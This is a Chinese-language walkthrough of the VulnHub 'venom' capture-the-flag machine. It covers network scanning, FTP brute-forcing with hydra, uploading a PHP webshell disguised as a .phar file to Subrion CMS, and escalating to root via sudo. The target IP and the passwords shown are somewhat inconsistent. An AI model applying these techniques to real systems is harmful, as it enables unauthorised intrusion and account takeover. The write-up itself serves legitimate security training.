






# venom 打靶思路详解（vulnhub）

## 第一步：信息收集

```bash
nmap -sn 192.168.31.0/24
```

确定靶机 IP 为 192.168.31.105

再次使用 nmap 对靶机 IP 进行详细扫描

```bash
nmap -p- -sV -sT -O 192.168.31.186
```

结果如下



## 第二步：WEB 渗透

访问 http://192.168.31.186/


发现是 apache 的初始界面

使用 dirb 扫描目录

```bash
dirb http://192.168.31.186/
```

  
什么都没有

查看源码发现


```bash
5f2a66f947fa5690c26506f66bde5c23
```

交给 hashid 查看一下

```bash
hashid 5f2a66f947fa5690c26506f66bde5c23
```



感觉就是 md5 了找一个在线网站解密一下


解密结果为 hostinger，猜测为用户名

## 第三步：FTP 渗透

用命令连接 ftp

```bash
ftp 192.168.31.186
```


可以看到用户正确，使用 cewl 生成一份字典

```bash
cewl http://192.168.31.186/ -w password.txt
```

然后使用 hydra 进行爆破

```bash
hydra -l hostinger -P password.txt -t 5 -vV -o jg.txt -e ns 192.168.31.186 ftp
```


爆破出来发现密码为 hostinger

登入 ftp，查看内容


进入 files 目录，查看


发现有 hinit.txt 文件，使用 get 命令下载下来，查看


## 第四步：密码破解

```bash
内容为：

Hey there... 

T0D0 --

* You need to follow the 'hostinger' on WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0= also aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
* some knowledge of cipher is required to decode the dora password..
* try on venom.box
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the administrator password 


Have fun .. :)


翻译为：
嘿。。。


T0D0--


*您需要遵循 WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=也是 aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=上的“hostinger”

*解码 dora 密码需要一些密码知识。。

*试试 venom.box

暗语 L7f9l8@J#p%Ue+Q1234->deocode 这个你会得到管理员密码


玩得高兴
```

内容里有两处字符串

```bash
WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
```

一般这个格式都是 Base64 加密的，那就解密



得到了两个结果

```bash
standard vigenere cipher  翻译为  标准 vigenere 密码

https://cryptii.com/pipes/vigenere-cipher
```

访问 https://cryptii.com/pipes/vigenere-cipher 这是一个解密网站

  
我把暗语输入进去，得到了密码 E7r9t8@Q#h% Hy+M1234

然后根据他的提示更改 hosts 文件，将域名 venom.box 与 ip 对应


## 第五步：再次 WEB 渗透

访问 http://venom.box/


可以看到是由 Subrion CMS 搭建的，那直接搜索该 cms 后台地址  
  
有意外收获，那就根据文章访问地址 http://venom.box/panel/uploads/


使用 dora 和 N7w9j8@Y#i% Cm+S1234 登入，直接到达文件上传点，根据文章，我通过哥斯拉生成一个 php 的 webshell，将后缀名改为 phar 上传


然后使用哥斯拉连接


## 第六步：后渗透

通过查看“/var/www/html/subrion/backup/.htaccess”文件，获得了一些信息


```bash
allow from all
You_will_be_happy_now :)
FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a
```

进入 SuperTerminal 模块，点击 start

查看 /etc/passwd 文件

!\[su-1 (2)\](./assets/su-1 (2).png)

因为 linux 普通用户的 uid 为 500-60000，所以可以推断出“FzN+f2-rRaBgvALzj\*Rk#\_JJYfg8XfKhxqB82x\_a”为 nathan 用户的密码

所以登入 nathan 用户

```bash
su nathan
```

产看权限

```bash
sudo -l
```



发现为 root 权限，但禁止使用 su 命令

那么我们提权

```bash
sudo /bin/bash
```


成功！

然后就是查看 flag 了



至此完结，撒花。
